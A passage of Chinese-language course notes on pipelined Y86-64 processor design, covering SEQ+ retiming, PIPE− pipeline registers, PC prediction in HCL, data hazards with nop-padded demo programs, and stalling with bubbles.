在 SEQ 中，PC 的更新发生在周期末尾：周期开始时 PC 已经就位，信号从 PC 出发往上传，最后在右端算出 newPC，下一个上升沿才写进 PC 寄存器。这个安排没法直接流水化：如果按阶段切开放进流水线，那么“取指阶段”在每个周期一开头就需要一个 PC，而这个 PC 要由上一条指令在它自己的执行/访存阶段算出来（分支是否跳、ret 的返回地址），这些结果在 SEQ 里是同一周期后半段才有的。换句话说，PC 的计算必须从数据通路的末尾挪到开头。
教材 4.5.1 的做法叫 SEQ+：为那些“上一条指令算出来、下一条指令要用”的信号建立状态寄存器，把它们保存一个周期。具体说，SEQ 末尾的 New PC 选择逻辑需要 icode、Cnd、valC、valM、valP 五个信号；SEQ+ 把这五个值分别锁存进一组寄存器 pIcode、pCnd、pValC、pValM、pValP，然后在下一个周期开始时，让它们穿过同一套 PC 选择逻辑，算出当前这条指令应当使用的 PC。图 4 把两种做法画在一起：SEQ 是“本周期的信号 → New PC → PC 寄存器”，SEQ+ 是“上一周期锁存的信号 → 同一套 New PC 逻辑 → 直接作为本周期的 PC”。这种把状态元素在数据通路中前后移动、不改变整体逻辑行为的技术叫作电路重定时（circuit retiming），教材说它常用于平衡流水线各阶段之间的延迟。
图 4 SEQ 与 SEQ+ 的 PC 计算（教材图 4.39）：(a) SEQ 在周期末尾用本周期的信号算出 newPC；(b) SEQ+ 把 icode、Cnd、valC、valM、valP 锁存下来，在下一周期开头用同一套逻辑算出 PC
SEQ+ 有一个令人意外的地方：机器里已经没有 PC 寄存器了。教材在侧栏里专门指出这一点：SEQ+ 不保存程序计数器，PC 是根据上一周期锁存下来的信息在每个周期开头现算出来的。这并不违反 ISA，因为 ISA 只要求处理器对任意程序都能给出正确的程序员可见状态，并不要求硬件的状态与 ISA 里的状态一一对应。第 11 讲的流水线把这一点推向更远：PIPE 里连“PC 在每个周期开头算好”都不能保证，只能预测。
常见问题：SEQ+ 到底改变了什么？它和 SEQ 的结果一样吗？
逻辑结果完全一样，改变的只是“什么时候算”。SEQ 在周期末尾算 newPC，然后写进 PC 寄存器；SEQ+ 把这次计算的结果锁存成 pIcode、pCnd、pValC、pValM、pValP，在下一周期开头重新算出同一个 PC 并直接送给指令存储器。因为组合逻辑在上升沿前后的输入输出是稳定的，两种做法的行为逐周期相同，只是 SEQ+ 把“PC 选择”从周期末尾挪到了周期开头。它的价值在于：一旦插入流水线寄存器，取指阶段就能在周期一开头拿到 PC，不必等上一条指令在本周期算完。
（2）插入流水线寄存器：PIPE−（课件 p.16–17；教材 4.5.2–4.5.3）#
在 SEQ+ 的五个阶段之间插入寄存器，就得到教材所说的 PIPE−（“−”表示它还没有处理任何相关，性能比最终的 PIPE 差）。课件 p.16、p.17 给出这张结构图（图 5）：硬件部件与 SEQ 几乎完全相同——指令存储器、PC 增加器、寄存器文件、ALU、条件码寄存器、数据存储器，加上各控制逻辑块——区别只在于阶段之间多了五个流水线寄存器，它们把每个阶段的输出锁存下来，供下一个阶段使用。
图 5 PIPE− 的五级结构（课件 p.16–17；教材图 4.41）：紫色横条是 F、D、E、M、W 五个流水线寄存器，白色小格是它们保存的字段；蓝色是硬件部件，灰色圆角框是控制逻辑块；左侧①②③三条彩色粗线是反馈路径
读这张图要先认清三种方框。蓝色方框是真正存放或加工数据的硬件部件：指令存储器、PC 增加器、寄存器文件、ALU、条件码 CC、数据存储器，它们与 SEQ 中的同名部件完全相同。灰色圆角框是控制逻辑块：它们是组合逻辑，功能由 HCL 描述，作用是“决定选哪个值、做哪种操作”，例如 Select PC 从三个候选地址中选出本周期的取指地址，ALU A、ALU B 为 ALU 选择两个操作数，ALU fun. 根据 icode、ifun 决定 ALU 做加减还是逻辑运算，Addr、Data 为数据存储器选择地址和要写的数据，Mem. control 决定读还是写；图中只画出它们的输入和输出，内部逻辑见第 10 讲的 HCL。紫色横条是五个流水线寄存器，横条里的白色小格是它保存的字段（表 5）。黑色箭头是“向上”的正常数据通路：每个阶段从下方的流水线寄存器取值、经过本阶段的部件，结果锁进上方的流水线寄存器；同一阶段内的字段（如 stat、icode）若本阶段不用，就直接穿过、原样传给下一个寄存器。少数几处黑线彼此交叉（例如 E.valB 与 valC 那条线），交叉处画成断开的样子，表示两线并不相连。
五个流水线寄存器各存什么，课件 p.17 的结构图把它们画成蓝色方框里的白色小格（本讲义图 5 中是紫色横条里的白色小格）。表 5 把每个寄存器保存的字段、字段的来源和去向列在一起。读这张表时注意两点：第一，寄存器号跟着指令一起走——dstE、dstM、srcA、srcB 在译码阶段算好，锁进 E 寄存器，再随指令流到 M、W 寄存器，直到写回阶段才连到寄存器文件的写端口；第二，状态码 stat 从一开始就跟着指令走：取指阶段产生 f_stat，锁进 D 寄存器，可能被访存阶段的地址错误改写，最终随 W 寄存器到达写回阶段（11.10 节）。
表 5 流水线寄存器保存的字段（课件 p.17；教材图 4.41、4.52；位数按各字段的实际宽度估算）
| 寄存器 | 保存的字段 | 位数 | 说明 |
|---|---|---|---|
| F | predPC | 64 | 预测的下一条指令地址；取指阶段用它算出 f_pc |
| D | stat, icode, ifun, rA, rB, valC, valP | 148 | 刚取出的指令的全部信息（stat、icode、ifun、rA、rB 各 4 位，valC、valP 各 64 位） |
| E | stat, icode, ifun, valC, valA, valB, dstE, dstM, srcA, srcB | 220 | 译码后的操作数、目的寄存器编号、源寄存器编号（四个寄存器号各 4 位） |
| M | stat, icode, Cnd, valE, valA, dstE, dstM | 145 | 执行结果 valE 与条件 Cnd（1 位）；注意此时 valA 可能保存的是 valP（见下文 Select A） |
| W | stat, icode, valE, valM, dstE, dstM | 144 | 两个写回结果与两个目的寄存器编号 |
| 合计 | — | 721 | 约 90 字节，与 15 个程序寄存器的 960 位（120 字节）在同一个量级 |
为什么 M 寄存器里没有单独的 valP 字段？因为 PIPE− 在译码阶段加了一个 Select A 逻辑块，把 valA 与 valP 合并成一个信号（图 5 译码级中紧挨寄存器文件右侧的 Select A：它的两个输入是寄存器 A 口读出的 rvalA 和 D 寄存器里的 valP）。教材 4.5.3 解释了这个巧妙的安排：在全部指令中，只有 call 需要在访存阶段用 valP（作为返回地址压栈），只有 jXX 需要在执行阶段用 valP（作为不跳转时的顺序地址），而没有任何一条指令同时需要 valP 和从寄存器 A 口读出的值。因此可以约定：对 call 和 jXX，valA 里装 valP；其余指令的 valA 装从寄存器读出的值。这样一个字段顶两个用，省下了流水线寄存器里一个 64 位字段和一堆走线，SEQ 里那个“Mem. data”选择块也随之取消了。
流水线寄存器的好处还不止于此：它们把一条指令的全部信息锁在同一个阶段里。教材强调这一点：写回阶段必须用“写回阶段那条指令自己的”dstE、dstM 和 valE、valM，绝不能混进译码阶段那条指令的寄存器号；把指令的所有信息放进一个流水线寄存器、随指令一起流动，是流水线设计的基本原则。
⚠ 课件 p.16 结构图中的笔误
课件 p.16 的左侧是由 SEQ 改造出的结构图（SEQ 部分）。它的译码部件把寄存器文件的两个写端口标成 srcA srcB dstA dstB，其中 dstA、dstB 应为 dstE、dstM——这是第二版教材（32 位 Y86）留下的旧名字；右侧的 PIPE− 图没有这个问题（写端口标的就是 dstE、dstM）。写端口 E 接收 valE（ALU 结果），写端口 M 接收 valM（内存读出的值），与课件 p.17 的字段名一致。（第 10 讲图 2 已经指出过同一处笔误。）
（3）信号命名：S_Field 与 s_Field（教材 4.5.3）#
流水线里同一个名字的值有很多份：有五条指令，就有五份 icode、五份 valE。为了说清楚“这是哪一条指令的哪一份值”，教材规定了两条命名规则（表 6）：大写阶段名前缀表示“某个流水线寄存器里的字段”，例如 D_icode 是 D 寄存器里的 icode、W_valM 是 W 寄存器里的 valM；小写阶段名前缀表示“在某个阶段里现算出来的信号”，例如 d_srcA 是译码阶段组合逻辑算出的 srcA、e_valE 是执行阶段 ALU 的输出、m_stat 是访存阶段综合了地址错误信息之后算出的状态。两个前缀的差别是实质性的：大写的是锁存住的状态，小写的是随组合逻辑变化的信号。填写 HCL 时某一处该用大写还是小写，11.18 节专门讲判断的方法。
表 6 信号命名规则（教材 4.5.3；课件 p.18 的反馈路径图）
| 写法 | 含义 | 例子 |
|---|---|---|
| X_Field | 流水线寄存器 X（F、D、E、M、W）中的字段 Field | D_icode：刚取出的指令代码；W_valM：写回阶段读出的内存值 |
| x_Field | 在阶段 x（f、d、e、m、w）中计算出的信号 Field | d_srcA：译码阶段算出的源寄存器 A；e_valE：执行阶段 ALU 输出 |
| 两者容易混淆的一对 | m_stat 与 M_stat | M_stat 是 M 寄存器里的状态字段；m_stat 是访存阶段重新计算的状态，它把 dmem_error 折了进去，可能比 M_stat 更严重 |
| 另一对 | e_dstE 与 E_dstE | E_dstE 是 E 寄存器里的目的寄存器编号；e_dstE 是执行阶段现算的、条件传送不成立时被改成 RNONE 的那个编号 |
（4）反馈路径（课件 p.18）#
图 5 左侧那三条从后级绕回前级的彩色粗线，加上取指级里从 Predict PC 回到 F 寄存器的那一小段，就是流水线的反馈路径（feedback paths）。课件 p.18 把反馈路径归成两类，教材则细分成四条，表 7 逐条列出。这些路径是“向前（upward）通路”之外的另一类连接：流水线寄存器本身只能把值传给紧邻的下一级（2025 版课件 p.17 的说明：“Cannot jump past stages”，例如 valC 要经过译码阶段才能到执行阶段），而反馈路径允许把后级算出的值直接送回前级使用。
表 7 流水线的四条反馈路径（课件 p.18；教材 4.5.4）
| 反馈路径 | 来源 → 去向 | 作用 |
|---|---|---|
| 预测的 PC | 取指级 Predict PC 的输出 f_predPC → 存入 F 寄存器（F_predPC）→ 下一周期 Select PC | 让取指阶段不必等待上一条指令，直接按猜测取指令 |
| 分支信息（图中②） | 误预测的 jXX 到达 M 级时的 M_valA（即它的 valP）→ Select PC | 误预测被证伪时，取顺序执行的下一条指令 |
| 返回地址（图中③） | ret 到达 W 级时读出的 W_valM → Select PC | ret 完成时，把返回地址送进取指 |
| 寄存器更新（图中①） | W_valE、W_valM → 寄存器文件的 E、M 写端口（地址为 W_dstE、W_dstM） | 把上一条指令的结果写回寄存器文件，供后面的指令读取 |
四条反馈路径的存在，意味着流水线的“当前 PC”不再由一个寄存器唯一决定：它可能来自预测（大多数情况）、来自一个被证伪的分支（M 级）、来自一条 ret（W 级）。取指阶段的 PC 选择逻辑因此要从三个候选值中挑一个，这是 11.2 节最后的问题，也是 11.8、11.9 两节处理控制相关的出发点。
（5）下一个 PC 从哪来：预测（课件 p.18、p.47；教材 4.5.4）#
取指阶段的硬件要把三件事同时做完：选出当前指令的 PC、从指令存储器读出指令、算出并预测下一条指令的 PC。预测之所以必须做，是因为在取指的那一刻，我们无法知道这条指令执行后程序会走到哪里：如果它是一条条件跳转，要等到执行阶段才能知道条件成立与否（M 级才定案）；如果它是一条 ret，要等到访存阶段才读出返回地址。要维持“一个周期发出一条指令”的目标，只能先猜。
课件 p.47 给出本讲使用的预测策略，表 8 按指令类型列出。不改变控制流的指令（halt、nop、OPq、rmmovq、mrmovq、irmovq、rrmovq/cmovXX、pushq、popq）都预测“下一条是 valP”，永远猜对；call 与无条件跳转 jmp 预测“下一条是 valC”，也永远猜对；有条件跳转 jXX 同样预测 valC（即总是猜跳转），只有分支真的成立时才猜对——课件说这个策略的正确率约为 60%；ret 不预测，改为暂停流水线直到返回地址被读出来（11.9 节）。
表 8 本讲的 PC 预测策略（课件 p.47；教材 4.5.4）
| 指令类型 | 预测的下一条 PC | 正确性 |
|---|---|---|
| 不改变控制流的指令 | valP | 永远正确 |
| call、jmp | valC（跳转目标） | 永远正确 |
| 条件跳转 jXX | valC（总是猜“跳转”） | 分支成立时正确，约 60% |
| ret | 不预测，暂停取指 | 等到 W 级拿到返回地址再恢复 |
预测逻辑和 PC 选择逻辑各是一小段 HCL（教材 4.5.4、4.5.7）。Predict PC 的任务是“猜下一个 PC 存进 F 寄存器”：猜的是本条指令的 valC（若它是 jXX 或 call）或者 valP（其余情况）。Select PC 的任务是“选出本周期的取指地址”：来自 M 级的分支修正（M_icode 是 jXX 且 M_Cnd 为 0，说明猜错了，要取 valP，它被存在 M_valA 里）、来自 W 级的 ret 返回地址（W_valM）、或者默认使用 F 寄存器里的预测值。
# 预测下一个 PC：存在 F 寄存器里（教材 4.5.7）
word f_predPC = [
f_icode in { IJXX, ICALL } : f_valC;
1 : f_valP;
];
# 选出本周期的取指地址（教材 4.5.7）
word f_pc = [
# 分支预测错误：取顺序下一条（它的 valP 存在 M_valA 里）
M_icode == IJXX && !M_Cnd : M_valA;
# ret 到达 W 级：用读出的返回地址
W_icode == IRET : W_valM;
# 默认：用预测值
1 : F_predPC;
];这里有一个初看很别扭、细想很关键的细节：分支是否猜错，是在 M 级才确定的（M_Cnd 是 M 寄存器里保存的条件信号），而 ret 的返回地址是在 W 级才读出的。所以 f_pc 的第一行用的是 M_icode 与 M_Cnd，第二行用的是 W_icode 与 W_valM——PC 的选择要等两条最老的指令“把话说清楚”。也正因为如此，误预测的分支和 ret 都要付出若干周期的代价：分支猜错要取消已经取进流水线的两条指令，ret 要停住取指直到 W 级把地址送回来（11.8、11.9 节）。
常见问题：为什么 f_pc 的第一行关注的是 M 级，而不是刚执行完的 E 级？
因为“分支到底跳不跳”要等 jXX 走到 M 级时才最终确定。jXX 在 E 级由 ALU 旁边的 cond 部件算出 Cnd，但它要随流水线寄存器进入 M 级之后，M_Cnd 才是可用的稳定值；同时它的 valP 也需要在 M 级通过 M_valA 取回（这正是 Select A 把 valP 合并进 valA 的原因——jXX 不读寄存器，valA 字段里放的就是 valP）。到 M 级还有一个好处：此时如果发现猜错，前面已经取进 D、E 的两条“错误路径指令”还没有产生任何可见状态，正好可以一并取消。
常见问题：为什么不对 ret 也预测一下？
理论上可以：绝大多数情况下，ret 返回的就是调用它的 call 的下一条指令，用一个“返回地址栈”（return address stack）就能猜得很准。教材在侧栏里介绍了这种做法：在取指单元里维护一个硬件栈，每执行一条 call 就把返回地址压入，每取到一条 ret 就弹出栈顶作为预测。但这个方法需要额外的硬件栈和一套预测失败时的恢复机制，本讲的 PIPE 为了简单，完全不为 ret 做预测：取指阶段照常按 valP 取指，取到的指令先装进 D 寄存器；一旦检测到流水线里有一条 ret，就开始暂停取指、往译码级注入气泡，直到 ret 走到 W 级、返回地址出来为止（11.9 节）。
11.3 数据相关与数据冒险（课件 p.19–24）#
课件 p.19 用一个分节页把问题摆出来：Data dependency。在顺序执行的机器上，一条指令算出的值被后面的指令拿去用，是天经地义的；但在流水线上，后面的指令可能在前面的指令把结果写回之前就去读寄存器，于是读到一个旧值。课件 p.20 用一段 4 条指令的小程序（demo-h0.ys）把这个错误演示得很清楚。
# demo-h0.ys：去掉流水线控制之后的错误执行（课件 p.20）
0x000: irmovq $10,%rdx
0x00a: irmovq $3,%rax
0x014: addq %rdx,%rax
0x016: halt这段程序在没有做任何相关处理的流水线（也就是 PIPE−）上执行时的流水线图见图 6 (a)（照课件 p.20 重画，右侧放大的是第 4 周期这一列）。第 4 周期 addq 进入 D 级去读寄存器文件，此时两条 irmovq 分别处在 M 级和 E 级：第一条 irmovq 要到第 5 周期（它的 W 级）结束的上升沿才把 10 写进 %rdx，第二条还要再晚一个周期才把 3 写进 %rax。于是 addq 读到 valA = R[%rdx] = 0、valB = R[%rax] = 0，算出的结果 %rax = 0 + 0 = 0，而不是正确的 13。课件把这一格标成“Error”，放大框里同时列出了 M 级、E 级的待写回值：M_valE = 10、M_dstE = %rdx，e_valE = 0 + 3 = 3、E_dstE = %rax——值都已经算出来了，只是还没写进寄存器文件，而 addq 偏偏在这时候去读。
这里要区分两个概念，它们是本讲后面所有讨论的基础。数据相关（data dependency）是程序本身的性质：指令 B 用到了指令 A 算出的值，我们就说 B 与 A 相关。具体到“先写、后读”这一种，叫写后读相关（read-after-write，RAW）：寄存器先被写、再被读。数据相关无处不在，任何有意义的程序都有；它本身不是错误。数据冒险（data hazard）则是流水线的性质：由于流水线的时序安排（在 D 级读、在 W 级写），数据相关有可能让程序算出错误的结果，这时我们说相关变成了冒险。同样的数据相关在 SEQ 上不会成为冒险（一条指令做完才做下一条），在 PIPE 上却会；而经过转发或者停拍之后，相关仍然存在、冒险却消失了。一句话：相关是“程序里的事实”，冒险是“流水线的缺陷”。
那么，两条相关的指令之间到底要隔多远才安全？课件 p.21–p.24 用一组实验回答这个问题：在第二条 irmovq 与 addq 之间依次插入 1 个、2 个、3 个 nop，得到 demo-h1、demo-h2、demo-h3 三个程序（nop 只是把 addq 往后推，程序的其余部分不变，所以 addq 和 halt 的地址依次后移 1 字节）。图 6、图 7 把这四个程序的流水线图画在一起，nop 所在的行用浅黄色底色标出；每张图右侧放大的是 addq 处在 D 级的那一周期。读图的方法：在蓝色那一列里，看两条 irmovq 分别处在哪一级——只有它们都已经走完 W 级（也就是结果已经在上一个周期末写进寄存器文件），addq 在 D 级才能读到正确的值；处在 W 级还不够，因为写入发生在 W 级这个周期结束的上升沿。
图 6 没有任何相关处理时，nop 个数对 addq 的影响（一）（课件 p.20、p.22；模拟器运行结果）：(a) 不插 nop，第 4 周期 addq 读到两个 0；(b) 插 1 个 nop，第 5 周期第一条 irmovq 还在 W 级、尚未写入，仍读到两个 0
图 7 没有任何相关处理时，nop 个数对 addq 的影响（二）（课件 p.23–24；模拟器运行结果）：(c) 插 2 个 nop，第 6 周期 %rdx 已写入、%rax 还在 W 级，valB 仍错；(d) 插 3 个 nop，第 6 周期末 %rax 写入（紫色一列），第 7 周期 addq 读到 10 和 3
表 9 把四种情况汇总在一起。
表 9 nop 的数量与 addq 读到的值（模拟器在没有任何相关处理的流水线上运行 demo-h0～h3 得到）
| 程序（nop 插在第二条 irmovq 与 addq 之间） | addq 在 D 级的周期 | valA / valB | 此时两条 irmovq 的位置 | 结果 %rax |
|---|---|---|---|---|
| demo-h0（无 nop） | 4 | 0 / 0 | M 级与 E 级，都还没写回 | 0（错） |
| demo-h1（1 个 nop） | 5 | 0 / 0 | W 级与 M 级，都还没写回 | 0（错） |
| demo-h2（2 个 nop） | 6 | 10 / 0 | 第一条已写回，第二条还在 W 级 | 10（错） |
| demo-h3（3 个 nop） | 7 | 10 / 3 | 两条都已写回 | 13（对） |
这张表给出了那个著名的结论：在“读在译码、写在写回”的流水线上，生产者与消费者之间至少要隔 3 条指令，消费者才能从寄存器文件读到正确的值。原因是寄存器文件的写发生在 W 级结束时的上升沿，而读发生在 D 级；一条指令从 D 走到 W 要 3 个周期，消费者必须在生产者离开 W 级之后再进 D 级。在图 7 (d) 中可以直接看到：两条 irmovq 分别在第 5、6 周期处于 W 级、在这两个周期末完成写入，addq 在第 7 周期进入 D 级，正好赶上。
常见问题：为什么 nop 也要“占一个周期”，它不是什么都不做吗？
nop 在硬件上仍然是一条指令：它要被取指、译码、执行、访存、写回，只是不做任何有副作用的事。它占用流水线的各级，把后面的指令往后推，因此恰好起到“拉开距离”的作用。从数据通路的角度看，nop 的 icode 是 INOP，各控制信号都取“不做”的取值（dstE = dstM = RNONE，mem_read = mem_write = 0，set_cc = 0），所以它在流水线里流动时不产生任何可见效果。11.5 节要讲的“气泡”（bubble）就是硬件动态生成的 nop，两者在流水线里的行为完全相同。
除了 RAW，教材还系统分析过其他几种相关（教材 4.5.5 的侧栏“Enumerating classes of data hazards”），表 10 把它们与 Y86-64 的五级流水线对照。写后写相关（WAW，output dependency）与读后写相关（WAR，anti-dependency）在乱序执行的机器上会造成冒险，但在本讲的按序流水线上不会：所有指令都按程序顺序依次经过 D 级去读、经过 W 级去写，不会出现“后一条先写”或“前一条后读”的情况；唯一可能同时写两个端口的是 popq，它写同一个寄存器时由硬件约定的优先级处理（第 10 讲 10.7 节，M 口优先）。程序计数器、条件码、存储器、状态码的相关也各有结论：条件码在执行阶段写、在执行阶段（cmovXX）和访存阶段（jXX）读，读者总在写者之后；存储器的读写都在访存阶段完成；自修改代码（指令读自己刚写的内存）本讲假设不会出现。
表 10 几类相关在 Y86-64 五级流水线中的情况（教材 4.5.5 侧栏）
| 相关类型 | 含义 | 在本流水线中是否成为冒险 |
|---|---|---|
| RAW（写后读） | 后一条指令读前一条指令写的寄存器 | 会，是本节讨论的主要冒险 |
| WAR（读后写） | 后一条指令写的寄存器被前一条读过 | 不会：读在 D、写在 W，按序进行 |
| WAW（写后写） | 两条指令先后写同一个寄存器 | 不会：写严格按序；popq 双写由优先级约定 |
| 程序计数器 | 取指用到 PC，后面阶段改 PC | 只在预测错误与 ret 时，属控制冒险（11.8、11.9 节） |
| 条件码 | 执行阶段写，执行/访存阶段读 | 不会：读的指令总在写的指令之后到达 |
| 存储器数据 | 访存阶段读写 | 不会：读写都在 M 级，按序；自修改代码本讲不考虑 |
11.4 解法一：让程序员或编译器插入 nop（课件 p.21–24）#
数据冒险的第一个解法最直接：既然隔 3 条指令就安全，那就由写程序的人或编译器在相关指令之间插入 nop。课件 p.21 的过渡页把这叫作 Solution #1，p.22–p.24 用 1 个、2 个、3 个 nop 三张图说明需要插几个才够——也就是 11.3 节图 6、图 7 的 (b)～(d)：在第二条 irmovq 与 addq 之间插 3 个 nop，addq 读到 10 和 3，结果 13；插 2 个时 valA 读到 %rdx = 10、valB 读到 %rax = 0，结果 10，仍然错。插入后的程序如下：
# demo-h3.ys：用 3 个 nop 拉开距离（课件 p.24）
0x000: irmovq $10,%rdx
0x00a: irmovq $3,%rax
0x014: nop
0x015: nop
0x016: nop
0x017: addq %rdx,%rax # 此时 %rdx = 10、%rax = 3
0x019: halt这种方法的问题很容易看出来。第一，代价高：每遇到一次相关就要插 3 条什么都不做的指令，程序的指令数可能增加好几倍，而流水线的目标本来是“每个周期完成一条指令”，现在一大半周期都被 nop 占着。第二，责任错位：数据的距离是硬件微结构决定的（D 级读、W 级写、五级流水），写程序的人不该、也很难知道到底该插几个 nop——换一个更深的流水线，插的数量就要变，同一份二进制代码在不同处理器上都要重新编译才行。第三，编译器也难做：编译器可以靠指令调度把无关指令填进这些空档，但遇到“没有无关指令可填”的情况仍然只能插 nop。
正因为如此，这个解法在真实机器上没有被采用。课件 p.25 的过渡页提出自然的下一个问题：为什么不让硬件自己来做这件事？ 这正是 11.5 节的解法二——暂停（stall）。
⚠ 不要把“3 条指令”记成流水线的普遍规律
“隔 3 条指令才安全”是由本讲这台五级流水线的具体时序决定的：D 级读、W 级写，两者相隔 3 个周期。流水线更深或更浅、读写的阶段不同，这个数字都会变；一旦加入转发（11.6 节），大部分相关一条 nop 都不需要，只有加载/使用冒险才需要停一拍（11.7 节）。所以正确的理解是“消费者必须在生产者写回之后才读”，而不是背“隔 3 条”。
常见问题：既然 nop 能解决问题，为什么还要转发和暂停？
nop 只是把“距离不够”这件事暴露出来，并没有真正解决它——它把纠正的责任推给了软件，而且纠正的代价（3 个周期的空转）与硬件暂停完全一样。硬件暂停至少在软件不知情的情况下保证了正确性；而转发能把这个代价从 3 个周期降到 0（只有加载/使用冒险还要停 1 拍）。三种方法的取舍见 11.6 节末的表 15。
11.5 解法二：让硬件自动暂停并注入气泡（课件 p.25–32）#
课件 p.25 的过渡页提出第二个解法：“为什么不干脆让硬件来做？” 硬件完全有能力自己发现“这条指令要读的寄存器，前面某条指令还没写回”，于是它可以在译码级把这条指令按住，等生产者写回之后再放它过去。这个动作叫暂停（stall），被按住的周期里执行级没有新指令进入，硬件就往执行级塞进一个气泡（bubble）。
课件 p.26 把这件事拆成两个同时进行的任务：把 addq 按在译码级，以及往执行级注入一个 nop。图 8（课件 p.32）给出了流水线寄存器为此新增的两种工作模式：正常模式（normal）在时钟上升沿把输入加载；暂停模式（stall）保持原来的值不变，相当于“冻结”这个寄存器；气泡模式（bubble）把寄存器加载一个固定的复位值，这个复位值就是 nop 指令在该寄存器里的编码。注意气泡不是“一条真正的 nop 指令被取进来”，而是在流水线寄存器里直接写入 nop 的编码，所以它是“动态生成的 nop”，与程序员写的 nop 在流水线中的行为完全一样。教材同时约定：同一个周期里把 stall 和 bubble 都置 1 是错误的设计（11.12 节的组合 B 正是踩了这个坑）。
图 8 流水线寄存器的三种更新模式（课件 p.32；教材图 4.65）：(a) 正常：加载输入 y；(b) 暂停：保持原值 x；(c) 气泡：加载 nop 的复位值
表 11 流水线寄存器的三种更新模式（课件 p.32；教材图 4.65）
| 模式 | 控制信号 | 上升沿的行为 | 用途 |
|---|---|---|---|
| 正常（normal） | stall = 0，bubble = 0 | 状态 ← 输入（正常流动） | 没有特殊情况时的默认行为 |
| 暂停（stall） | stall = 1，bubble = 0 | 状态保持不变（冻结） | 把一条指令按在某个阶段里 |
| 气泡（bubble） | stall = 0，bubble = 1 | 状态 ← 固定的复位值（nop） | 取消一条指令，或在空档里填一个“什么都不做”的气泡 |
气泡的复位值随寄存器不同而不同：D 寄存器要变成 icode = INOP、rA = rB = RNONE、valC = valP = 0；E 寄存器要变成 icode = INOP、dstE = dstM = srcA = srcB = RNONE；M、W 寄存器也各自把 icode 置 INOP、把两个目的寄存器置 RNONE。原则只有一条：让这个气泡在后面的各级里不写任何状态。教材在 4.5.8 节解释过，确定每个流水线寄存器的复位配置是硬件设计者的任务之一。
暂停要由硬件自动发起，所以首先要回答：什么情况下需要暂停？ 课件 p.28–29 给出的判据（stall condition）是比较两组寄存器号：一组是译码级这条指令将要读的源寄存器 srcA、srcB；另一组是执行、访存、写回三级中各条指令将要写的目的寄存器 dstE、dstM。只要某个源寄存器号等于其中某个目的寄存器号，就说明它要读的值还在流水线里、没有写回，必须暂停（表 12）。比较时有一个特殊情况要排除：寄存器号 0xF（RNONE）表示“没有这个寄存器”，不能参与比较——否则“不读寄存器”的指令（srcA = RNONE）会与“不写寄存器”的指令（dstE = RNONE）“匹配”上，流水线就会无缘无故地暂停。
表 12 暂停条件的比较对象（课件 p.28–29；教材图 4.64 的第一、二行）
| 比较对象 | 从哪里读 | 含义 |
|---|---|---|
| 源寄存器 | 译码级指令的 d_srcA、d_srcB | 这条指令将来要读的两个寄存器 |
| 目的寄存器 1 | e_dstE（执行级现算的）、E_dstM | 正在执行的那条指令要写的两个寄存器 |
| 目的寄存器 2 | M_dstE、M_dstM | 正在访存的那条指令要写的两个寄存器 |
| 目的寄存器 3 | W_dstE、W_dstM | 正在写回的那条指令要写的两个寄存器 |
| 特殊情况 | 0xF（RNONE） | 不参与比较，表示“没有寄存器” |
检测到暂停之后，控制逻辑要同时做三件事：F 寄存器暂停（否则取指会重复取同一条指令进 D 级——教材说 F 保持不动，下一条指令就“再取一次”，等暂停结束后正常进入）；D 寄存器暂停（把当前指令按住）；E 寄存器注入气泡（执行级这个周期没有指令可做，塞一个 nop 进去，让它继续往后流动）。对应到图 8，就是 E 寄存器工作在 bubble 模式、D 与 F 寄存器工作在 stall 模式。
# 讲义自拟的"全停"版本控制信号（仅用于说明 11.5 节的暂停方案；最终版见 11.7、11.11 节）
bool load_use = # 译码级要读的寄存器是否被前三条指令写
(d_srcA != RNONE && d_srcA in { e_dstE, E_dstM, M_dstE, M_dstM, W_dstE, W_dstM }) ||
(d_srcB != RNONE && d_srcB in { e_dstE, E_dstM, M_dstE, M_dstM, W_dstE, W_dstM });
bool F_stall = load_use; # 取指级停住
bool D_stall = load_use; # 译码级停住
bool E_bubble = load_use; # 执行级注入气泡暂停的效果画成流水线图就一目了然（图 9，照课件 p.26–30 重画，由模拟器运行得到）。图 (a) 是 demo-h2（第二条 irmovq 与 addq 之间有 2 个 nop）：第 6 周期 addq 在译码级，第二条 irmovq 正在 W 级，W_dstE = %rax 与 addq 的 srcB 相同，于是 D、F 停住、E 注入一个气泡；图中 addq 的 D 格和 halt 的 F 格各重复一次（浅橙色），气泡单独占一行（灰色），从 E 级开始往后流。第 7 周期 %rax 已经写回，addq 继续前进，最终结果 13，整个过程只多花 1 个周期。图 (b) 是 demo-h0（没有 nop）：addq 在第 4 周期进入译码级，此时 %rdx、%rax 两个源寄存器都与后面几级的目的寄存器匹配；第 5、6 周期仍有匹配，于是连续暂停 3 次、注入 3 个气泡，addq 在译码级连待 4 个周期，直到第 7 周期两个值都已写回才放行。结果同样正确，但多花了 3 个周期。对照图 6 (a) 可以看出，硬件暂停的效果正是“在 addq 前面自动塞进了 3 个 nop”。
图 9 用暂停解决数据冒险（课件 p.26–30；模拟器运行结果）：(a) demo-h2，第 6 周期检测到 %rax 未写回，暂停 1 拍；(b) demo-h0，第 4～6 周期每周期都检测到匹配，连停 3 拍。浅橙色为被暂停而重复的 F/D 格，灰色为注入的气泡
表 13 把三个程序的周期数和气泡数汇总在一起：不管程序里原来有几个 nop，加上暂停后总周期数都一样，因为硬件补上的气泡正好填满 nop 不够的那部分距离。
表 13 暂停的效果（模拟器：同一程序在“全停”流水线 PIPE- 上的周期数与气泡数）
| 程序 | 周期数 | 气泡数 | 结果 %rax | 与无处理的区别 |
|---|---|---|---|---|
| demo-h0（无 nop） | 11 | 3 | 13（对） | 连停三拍，结果由错变对 |
| demo-h2（2 个 nop） | 11 | 1 | 13（对） | 只停一拍 |
| demo-h3（3 个 nop） | 11 | 0 | 13（对） | 不需要暂停 |
暂停法的优点是对软件透明：程序不用改，硬件自己保证正确。缺点也很明显：它的代价与 nop 法一样大——每遇到一次 RAW 相关就要停 1～3 个周期，而相关在真实程序里非常密集（课件 p.10 引用的统计里，25% 的指令是 load、20% 是条件分支）。教材说，用暂停处理数据冒险相当于“动态生成 nop，把 prog2、prog4 变成 prog1 的样子”，性能提升很有限。要真正把代价降下来，必须让流水线不暂停也能拿到正确的值——这就是 11.6 节的数据转发。
常见问题：暂停时为什么连取指级也要停？
